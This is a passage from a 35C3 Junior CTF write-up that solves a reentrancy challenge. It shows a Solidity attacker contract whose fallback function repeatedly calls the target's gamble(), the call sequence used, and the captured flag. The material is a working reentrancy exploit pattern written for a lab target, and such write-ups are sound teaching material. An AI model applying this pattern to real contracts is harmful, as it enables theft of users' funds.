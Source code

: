   constructor (address _entrance, string _server, string _port) public {
    server = _server;
    port = _port;
    entrance = Entrance(_entrance);
  }
  
  function enter () public {
    entrance.enter(12341111);
    entrance.gamble();
  }
  
  function getFlag () public {
    entrance.getFlag(server, port);
  }

  function kill () public {
    selfdestruct(msg.sender);
  }
  
  function () public payable {
    entrance.gamble();
  }
}
{{< /highlight >}}

I created an instance and called `enter()` until the Ethereum block number was divisible by seven, then checked the balance and called for the flag:
```
ReEntrance(0x1898Ed72826BEfa2D549004C57F048A95ae0B982, "185.35.202.202", "9956")
  -> 0x67ed0fee42a4131b0af0d44e00a2cb7357b7b943
enter()
balanceOf(0x67ed0fee42a4131b0af0d44e00a2cb7357b7b943)
  -> 1100
getFlag()
```

The flag got delivered to the wanted `server:port`:
```
35c3_reeeeeeeeeeeeeeeeeeeeee
```

# More 35C3 Junior CTF Write-Ups
The Norwegian hackerspace [Hackeriet](https://hackeriet.no/index.en.html) had a (tiny) [team](https://archive.aachen.ccc.de/junior.35c3ctf.ccc.ac/submissions/755/index.html) in the 35C3 Junior CTF. Please see the following write-ups by Alexander Kjäll a.k.a. capitol:

* [Solution to 35C3 Junior CTF challenge pretty linear](https://blog.hackeriet.no/solution-to-junior-35c3-pretty-linear/)
* [Solution to 35C3 Junior CTF challenge DANCEd](https://blog.hackeriet.no/solution-to-junior-35c3-DANCEd/)
* [Solution to 35C3 Junior CTF challenge Decrypted](https://blog.hackeriet.no/solution-to-junior-35c3-Decrypted/)
* [Solution to 35C3 Junior CTF challenge flags](https://blog.hackeriet.no/solution-to-junior-35c3-flags/)
